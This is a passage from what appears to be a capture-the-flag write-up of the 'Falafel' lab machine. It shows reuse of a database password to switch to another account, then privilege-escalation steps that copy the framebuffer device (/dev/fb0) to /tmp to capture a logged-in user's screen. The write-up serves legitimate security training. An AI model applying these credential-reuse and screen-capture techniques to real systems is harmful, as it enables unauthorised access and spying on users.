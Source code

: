 Most users reuse their passwords, so let’s try and su into _moshe_’s account using his database password.

```text
www-data@falafel:/var/www/html$ su moshe
Password:
moshe@falafel:/var/www/html$
```

We’re in! Grab the _user.txt_ flag.

![](https://miro.medium.com/max/601/1*rP-BRvro06nEYYJ15ravJw.png)

Let’s look for ways to escalate our privileges.

## Privilege Escalation <a id="5337"></a>

Run the _id_ command to view the real and effective user ids for the _moshe_ user.

```text
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
```

The user is part of the group _video_, which can be used locally to give a set of users access to video devices such as the frame buffer. The output to screen is stored within the [frame buffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image. This requires a user to be physically logged into the system.

To view who is logged into the system, we can use the _w_ command.

```text
moshe@falafel:~$ w
 06:42:18 up 2 days, 10:52,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM     LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1              Thu19    2days  0.04s  0.04s -bash
```

The _yossi_ user has a TTY connection which means a direct connection to the computer, versus a PTS connection which are SSH and telnet connections. Let’s grab the frame buffer content from _/dev/fb0_ and save it in _/tmp_.

```text
cp /dev/fb0 /tmp/fb0.raw
```

Then, run the following command to get the width of the screen.

```text
moshe@falafel:/dev$ cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1
1176
```

Run the following command to get the height of the screen.

```text
moshe@falafel:/dev$ cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2
885
```
